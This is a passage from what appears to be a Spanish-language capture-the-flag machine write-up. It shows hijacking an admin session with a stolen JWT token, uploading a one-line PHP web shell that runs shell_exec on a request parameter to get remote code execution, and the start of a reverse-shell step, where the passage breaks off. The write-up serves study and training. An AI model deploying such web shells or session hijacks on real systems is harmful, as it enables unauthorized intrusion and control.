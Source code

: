     ```bash
    python3 -m http.server 7070
    ```

1. Copiamos el JWT token en firefox

    <div class="figure">
    <img src="images/jwt-firefox.png" alt="jwt firefox hijack" width="90%" />
    <p class="caption">(\#fig:unnamed-chunk-21)jwt firefox hijack</p>
    </div>

Ya lanzando la web otra vez y vemos que un Admin Panel a salido y en el cual se puede ver notas y uploadear ficheros.

### Analizamos las notas {-}

Analizando las notas se puede ver :

- Usuario admin
- Usuario Noah
- Ejecucion de fichero php

### Uploadeamos un s4vishell.php {-}

Como hay un boton upload vamos a por una `s4vishell.php`

```php
<?php
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Subimos el fichero y perfecto nos va y pinchando el boton view ya tenemos Remote Code Execution




## Explotacion de vulnerabilidad & Ganando Acceso {-}

### Crear una reverse shell desde la s4vishell.php con un index.html {-}

1. Creamos un index.html
